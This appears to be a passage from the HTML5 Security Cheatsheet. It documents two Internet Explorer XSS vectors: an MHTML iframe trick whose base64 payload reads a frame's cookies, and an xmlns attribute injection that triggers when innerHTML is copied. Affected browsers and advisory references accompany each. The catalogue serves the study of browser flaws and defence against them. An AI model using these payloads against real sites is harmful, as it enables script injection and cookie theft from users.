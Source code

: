 
```
<iframe src=mhtml:http://html5sec.org/test.html!xss.html></iframe> <iframe src=mhtml:http://html5sec.org/test.gif!xss.html></iframe>``<html> <body> <b>some content without two new line \n\n</b> Content-Type: multipart/related; boundary="******"<b>some content without two new line</b> --****** Content-Location: xss.html Content-Transfer-Encoding: base64 PGlmcmFtZSBuYW1lPWxvIHN0eWxlPWRpc3BsYXk6bm9uZT48L2lmcmFtZT4NCjxzY3JpcHQ+DQp1 cmw9bG9jYXRpb24uaHJlZjtkb2N1bWVudC5nZXRFbGVtZW50c0J5TmFtZSgnbG8nKVswXS5zcmM9 dXJsLnN1YnN0cmluZyg2LHVybC5pbmRleE9mKCcvJywxNSkpO3NldFRpbWVvdXQoImFsZXJ0KGZy YW1lc1snbG8nXS5kb2N1bWVudC5jb29raWUpIiwyMDAwKTsNCjwvc2NyaXB0PiAgICAg --******-- </body> </html>crossdomain: 1path: [http://html5sec.org/test.html](http://html5sec.org/test.html)name: test.html
```

*   internet explorer 5.0
*   internet explorer 10.0

*   xss
*   internet explorer
*   archive
*   mhtml

*   [http://en.wikipedia.org/wiki/MHTML](http://en.wikipedia.org/wiki/MHTML)
*   [http://bolknote.ru/2006/08/24/~312/](http://bolknote.ru/2006/08/24/~312/)
*   [http://openmya.hacker.jp/hasegawa/security/ms07-034.txt](http://openmya.hacker.jp/hasegawa/security/ms07-034.txt)
*   [http://www.microsoft.com/technet/security/advisory/2501696.mspx](http://www.microsoft.com/technet/security/advisory/2501696.mspx)
*   [http://technet.microsoft.com/security/bulletin/ms11-026](http://technet.microsoft.com/security/bulletin/ms11-026)

reporter：Bolk, LeverOne

### XSS using "xmlns" attribute in custom tag when copying innerHTML (2)[#97](#97)[test](test/#97)

Internet Explorer incorrectly analyzes the attribute "xmlns" in custom tags when copying innerHTML - its value is being added to the tag &lt;?XML:NAMESPACE&gt; without any delimiters.


```
<!-- IE 5-9 --> <div id=d><x xmlns="><iframe onload=alert(1)"></div> <script>d.innerHTML+='';</script> <!-- IE 10 in IE5-9 Standards mode --> <div id=d><x xmlns='"><iframe onload=alert(2)//'></div> <script>d.innerHTML+='';</script>
```

Be very careful when handling user generated HTMl in the DOM later on. The innerHTML property does not always contain what it's supposed to.

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss
*   javascript
*   internet explorer
*   script
*   dom
*   innerhtml
